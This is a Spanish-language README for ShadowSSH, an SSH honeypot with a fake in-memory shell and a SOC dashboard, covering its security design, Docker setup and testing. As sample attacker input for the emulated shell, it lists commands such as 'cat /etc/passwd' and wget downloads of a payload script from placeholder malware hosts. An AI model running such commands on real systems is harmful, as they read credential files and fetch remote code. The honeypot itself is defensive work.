

# 🛡️ ShadowSSH: SSH Honeypot & Threat Intelligence SOC Dashboard

[](#)
[](#)
[](#)
[](#)

**ShadowSSH** es un Honeypot SSH de interacción media diseñado con arquitectura defensiva (Blue Team) para capturar ataques de fuerza bruta, registrar credenciales comprometidas y emular una terminal Linux interactiva (*fake shell*) **sin poner en riesgo el sistema operativo anfitrión**.

Incluye un módulo de **Threat Intelligence (GeoIP)** y un **Dashboard de SOC en tiempo real** para visualizar el origen geográfico de los ataques y los Indicadores de Compromiso (**IoCs**).

---

## 🏗️ Arquitectura del Sistema



---

## 🔒 Decisiones de Diseño de Seguridad

* **Principio de Mínimo Privilegio & Aislamiento:** Ningún comando tecleado por el atacante se envía a `/bin/bash` ni a `subprocess`. La terminal es un emulador en memoria (`fake_shell.py`) que responde sintéticamente a comandos típicos (`id`, `whoami`, `cat /etc/passwd`, `wget`).
* **Captura de IoCs:** Si un atacante intenta descargar malware vía `wget http://malware.com/script.sh`, el honeypot simula una descarga exitosa, engaña al atacante y guarda la URL en el registro forense.
* **Aislamiento por Contenedores:** Corre en contenedores Docker independientes comunicados por una red privada.

---

## 🚀 Despliegue Rápido con Docker (1 Paso)

Requisitos: Tener instalado **Docker** y **Docker Compose**.

```bash
# 1. Clonar el repositorio y entrar a la carpeta
cd ssh-honeypot-dashboard

# 2. Levantar el Honeypot y el Dashboard SOC
docker compose up --build
```

* 🛡️ **Honeypot SSH:** Escuchando en `localhost:2222`
* 📊 **Dashboard SOC:** Abre tu navegador en **`http://localhost:8501`**

---

## 🧪 Pruebas y Simulación de Ataques

### Opción A: Probar como un atacante real desde tu terminal
Conéctate por SSH al puerto 2222:
```bash
ssh root@localhost -p 2222
```
* Ingresa la contraseña trampa: `root` o `123456`.
* Verás la bienvenida de Ubuntu. Prueba teclear:
  ```bash
  whoami
  id
  uname -a
  cat /etc/passwd
  wget http://malware-site.test/payload.sh
  exit
  ```
* Revisa inmediatamente el Dashboard (`http://localhost:8501`) para ver tu sesión registrada en vivo.

### Opción B: Inyectar tráfico de ataque simulado (Botnets globales)
Para llenar el mapa y las estadísticas con decenas de ataques de prueba simulando botnets de varios países:
```bash
python simulate_attacks.py
```

---

## 📂 Estructura del Código

```text
ssh-honeypot-dashboard/
├── honeypot/
│   ├── server.py         # Servidor SSH multihilo y gestión de sesiones
│   ├── fake_shell.py     # Emulador seguro de terminal en memoria
│   ├── database.py       # Capa de persistencia SQLite
│   └── threat_intel.py   # Módulo GeoIP y resolución de red
├── dashboard/
│   └── app.py            # Dashboard visual SOC en Streamlit
├── simulate_attacks.py   # Inyector de telemetría y pruebas
├── Dockerfile.honeypot   # Contenedor del sensor Honeypot
├── Dockerfile.dashboard  # Contenedor del SOC Dashboard
├── docker-compose.yml    # Orquestación de servicios
├── requirements.txt      # Dependencias Python
└── README.md             # Documentación técnica
```
